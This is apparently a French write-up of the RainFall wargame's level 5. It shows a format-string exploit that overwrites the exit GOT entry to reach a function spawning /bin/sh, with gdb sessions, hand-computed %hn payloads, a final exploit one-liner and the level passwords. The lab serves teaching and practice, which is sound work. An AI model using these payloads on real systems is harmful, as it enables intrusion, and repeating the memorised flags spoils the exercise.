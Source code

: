 # Level 5

pass : `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`

## Source :

```c
#include <stdio.h>

int m = 0;  // 0x08049854

void	o() {  // 0x080484a4
	system("/bin/sh");
	_exit(1);
}

void	n() {  // 0x080484c2
	char	buf[520];  // ebp-0x208 | esp+0x10

	fgets(buf, 512, stdin);  // 0x200
	printf(buf);
	exit(1);
}

void	main() {  // 0x08048504
	n();
}
```

## Recherche :

> Ici, on voit que la fonction `o()` à l'adresse `0x080484a4` nous permettrait d'exécuter un shell.
> On va donc exploiter `printf()` pour changer le pointeur de fonction de `exit()` pour le faire pointer plutôt vers `o()`. On va donc faire comme l'exercice précédent, mais cette fois au lieux d'écrire dans une variable, on va écrire dans une fonction.

Comme fait précédement, on va chercher l'offset qu'on trouve à `4`:
```
$ ./script.sh ./level5
Index 0
Index 1
Index 2
Index 3
Index 4
AAAA41414141
```

Inspectons la GOT (**Global Offset Table**) :

```
[0]kali@kali:~/rainfall$ objdump -R ./level5

./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin@@GLIBC_2.0
08049824 R_386_JUMP_SLOT   printf@GLIBC_2.0
08049828 R_386_JUMP_SLOT   _exit@GLIBC_2.0
0804982c R_386_JUMP_SLOT   fgets@GLIBC_2.0
08049830 R_386_JUMP_SLOT   system@GLIBC_2.0
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit@GLIBC_2.0
0804983c R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
```

On va donc écrire à l'adresse `0x08049838` où se trouve la routine `exit`.

```gdb
gdb-peda$ r < <(perl -e 'print "\x38\x98\x04\x08%4\$n"')
Starting program: /home/kali/rainfall/level5 < <(perl -e 'print "\x38\x98\x04\x08%4\$n"')

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x4
EBX: 0x0
ECX: 0x0
EDX: 0x7ffffffb
ESI: 0xb7fb7000 --> 0x1dfd6c
EDI: 0xb7fb7000 --> 0x1dfd6c
EBP: 0xbffff2f8 --> 0xbffff308 --> 0x0
ESP: 0xbffff0dc --> 0x8048504 (<main>:  push   ebp)
EIP: 0x4
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x4
[------------------------------------stack-------------------------------------]
0000| 0xbffff0dc --> 0x8048504 (<main>: push   ebp)
0004| 0xbffff0e0 --> 0x1
0008| 0xbffff0e4 --> 0x200
0012| 0xbffff0e8 --> 0xb7fb7580 --> 0xfbad2098
0016| 0xbffff0ec --> 0xb7fda53c (<dl_main+8636>:        mov    eax,DWORD PTR [ebp-0x14c])
0020| 0xbffff0f0 --> 0x8049838 --> 0x4
0024| 0xbffff0f4 ("%4$n")
0028| 0xbffff0f8 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000004 in ?? ()
```

On a bien mis dans l'`EIP` l'addresse `0x4`, c'est à dire le nombre de bits de `\x38\x98\x04\x08`
Maintenant on va mettre l'addre de `o()` qui est `0x080484a4` avec `%hn`

Donc on veut excrire `0x84a4` puis `0x0804`
- `0x0804` - `8` = `2044`
- `0x84a4` - `0x0804` = `31904`

`
r < <(python -c 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn"')`

```gdb
(gdb) b o
Breakpoint 1 at 0x80484aa
(gdb) r < <(python -c 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn"')
Starting program: /home/user/level5/level5 < <(python -c 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn"')
:8
.
.
.
Breakpoint 1, 0x080484a7 in o ()
(gdb)
```
On a donc réussi à atteindre `o()` :)

Il ne reste plus qu'à lancer la commande et récuperer le pass.

## Exploit :

```shell
level5@RainFall:~$ (python -c 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn"';cat) | ./level5
whoami
level6
cd ../level6
cat .pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

----

## Documentation :
* [Une simple Exploitation de vulnérabilité Format String](https://www.exploit-db.com/papers/23985)

